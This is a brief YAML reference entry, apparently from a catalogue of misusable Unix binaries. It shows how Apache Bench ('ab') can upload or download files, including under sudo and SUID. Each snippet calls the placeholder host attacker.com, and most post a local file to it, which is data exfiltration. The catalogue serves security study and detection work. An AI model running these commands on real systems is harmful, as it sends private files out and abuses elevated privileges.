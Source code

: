 ```yaml
---
functions:
  file-upload:
    - description: Upload local file via HTTP POST request.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        ab -p $LFILE $URL
  file-download:
    - description: Fetch a remote file via HTTP GET request. The response is returned as part of the verbose output of the program with some limitations on the length.
      code: |
          URL=http://attacker.com/file_to_download
          ab -v2 $URL
  suid:
    - description: Upload local file via HTTP POST request.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        ./ab -p $LFILE $URL
  sudo:
    - description: Upload local file via HTTP POST request.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        sudo ab -p $LFILE $URL
---
```

